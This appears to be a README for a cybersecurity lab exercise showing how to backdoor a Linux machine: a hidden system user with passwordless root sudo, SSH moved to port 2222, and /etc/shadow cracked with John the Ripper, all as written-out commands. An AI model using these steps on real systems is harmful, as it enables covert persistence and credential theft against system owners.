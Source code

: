 # Advanced_Bash
Accomplishing the goal of maintaining access of a target machine by installing a backdoor.


## Step 1: Shadow People

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:

adduser --system --no-create-home sysd



Give your secret user a password:


passwd sysd

Give your secret user a system UID < 1000:


usermod -u 50 sysd

Give your secret user the same GID:


usermod -u 50 -g 50 sysd

Give your secret user full sudo access without the need for a password:


sysd ALL=(ALL) NOPASSWD:ALL

Test that sudo access works without your password:

sudo -l

sudo adduser --system --no-create-home test

Step 2: Smooth Sailing
Edit the sshd_config file:

 Port 2222



Step 3: Testing Your Configuration Update
Restart the SSH service:


systemctl reload sshd
Exit the root account:


exit
SSH to the target machine using your sysd account and port 2222:


ssh sysd@192.168.6.105 -p 2222

Use sudo to switch to the root user:


sudo su

Step 4: Crack All the Passwords
SSH back to the system using your sysd account and port 2222:


ssh sysd@192.168.6.105 -p 2222
Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:


sudo su
john /etc/shadow

Passwords:


